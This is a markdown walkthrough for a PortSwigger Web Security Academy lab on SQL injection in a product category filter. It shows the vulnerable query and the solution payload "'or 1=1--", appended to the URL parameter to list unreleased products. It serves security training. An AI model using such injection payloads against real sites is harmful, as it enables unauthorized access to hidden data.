 # Lab 1

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#
## Excercise: 

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

````
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

#
Level: Apprendice

Reference: https://portswigger.net/web-security/sql-injection
#
## Solution

Select one category to display the list of products, making the url redirect to something like this:

````
https://ac171f121e71094fc078c7ad006700c4.web-security-academy.net/filter?category=Corporate+gifts
````

To list all products in any category, add **"'or 1=1--"** in the end of the url:

````
https://ac841f9a1e7a0992c090bc1b00f4003e.web-security-academy.net/filter?category=Pets%27+or+1=1--
````

![Alt text](images/lab_1/lab1_solution.png?raw=true "Title")